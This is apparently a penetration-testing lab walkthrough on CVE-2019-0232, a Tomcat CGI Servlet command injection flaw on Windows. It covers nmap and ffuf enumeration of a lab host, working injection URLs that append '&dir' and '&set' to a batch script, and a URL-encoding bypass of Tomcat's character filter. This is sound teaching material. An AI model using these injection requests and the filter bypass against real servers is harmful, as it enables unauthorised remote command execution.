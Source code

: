 `CVE-2019-0232` is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the `enableCmdLineArguments` feature enabled. An attacker can exploit this vulnerability by exploiting a command injection flaw resulting from a Tomcat CGI Servlet input validation error, thus allowing them to execute arbitrary commands on the affected system. Versions `9.0.0.M1` to `9.0.17`, `8.5.0` to `8.5.39`, and `7.0.0` to `7.0.93` of Tomcat are affected.

The CGI Servlet is a vital component of Apache Tomcat that enables web servers to communicate with external applications beyond the Tomcat JVM. These external applications are typically CGI scripts written in languages like Perl, Python, or Bash. The CGI Servlet receives requests from web browsers and forwards them to CGI scripts for processing.

In essence, a CGI Servlet is a program that runs on a web server, such as Apache2, to support the execution of external applications that conform to the CGI specification. It is a middleware between web servers and external information resources like databases.

CGI scripts are utilised in websites for several reasons, but there are also some pretty big disadvantages to using them:

| **Advantages**                                                                               | **Disadvantages**                                                          |
| -------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------- |
| It is simple and effective for generating dynamic web content.                               | Incurs overhead by having to load programs into memory for each request.   |
| Use any programming language that can read from standard input and write to standard output. | Cannot easily cache data in memory between page requests.                  |
| Can reuse existing code and avoid writing new code.                                          | It reduces the server's performance and consumes a lot of processing time. |

The `enableCmdLineArguments` setting for Apache Tomcat's CGI Servlet controls whether command line arguments are created from the query string. If set to true, the CGI Servlet parses the query string and passes it to the CGI script as arguments.

Suppose you have a CGI script that allows users to search for books in a bookstore's catalogue. The script has two possible actions: "search by title" and "search by author."

The CGI script can use command line arguments to switch between these actions. For instance, the script can be called with the following URL:
```http
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby
```

However, a problem arises when `enableCmdLineArguments` is enabled on Windows systems because the CGI Servlet fails to properly validate the input from the web browser before passing it to the CGI script. This can lead to an operating system command injection attack, which allows an attacker to execute arbitrary commands on the target system by injecting them into another command.

For instance, an attacker can append `dir` to a valid command using `&` as a separator to execute `dir` on a Windows system. An example of this is `http://example.com/cgi-bin/hello.bat?&dir`, which passes `&dir` as an argument to `hello.bat` and executes `dir` on the server.

## Enumeration

Scan the target using `nmap`, this will help to pinpoint active services currently operating on the system. This process will provide valuable insights into the target, discovering what services, and potentially which specific versions are running, allowing for a better understanding of its infrastructure and potential vulnerabilities.

### Nmap - Open Ports
```shell-session
$ nmap -p- -sC -Pn 10.129.204.227 --open 
```

### Finding a CGI Script

One way to uncover web server content is by utilising the `ffuf` web enumeration tool along with the `dirb common.txt` wordlist. Knowing that the default directory for CGI scripts is `/cgi`, either through prior knowledge or by researching the vulnerability, we can use the URL `http://10.129.204.227:8080/cgi/FUZZ.cmd` or `http://10.129.204.227:8080/cgi/FUZZ.bat` to perform fuzzing.

### Fuzzing Extensions - .CMD
```shell-session
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

Since the operating system is Windows, we aim to fuzz for batch scripts.

### Fuzzing Extensions - .BAT
```shell-session
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

Navigating to the discovered URL at `http://10.129.204.227:8080/cgi/welcome.bat` returns a message:
```txt
Welcome to CGI, this section is not functional yet. Please return to home page.
```

## Exploitation

As discussed above, we can exploit `CVE-2019-0232` by appending our own commands through the use of the batch command separator `&`. We now have a valid CGI script path discovered during the enumeration at `http://10.129.204.227:8080/cgi/welcome.bat`:
```http
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

Navigating to the above URL returns the output for the `dir` batch command, however trying to run other common windows command line apps, such as `whoami` doesn't return an output.

Retrieve a list of environmental variables by calling the `set` command:
```http
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```

From the list, we can see that the `PATH` variable has been unset, so we will need to hardcode paths in requests:
```http
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

The attempt was unsuccessful, and Tomcat responded with an error message indicating that an invalid character had been encountered. Apache Tomcat introduced a patch that utilises a regular expression to prevent the use of special characters. However, the filter can be bypassed by URL-encoding the payload:
```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```
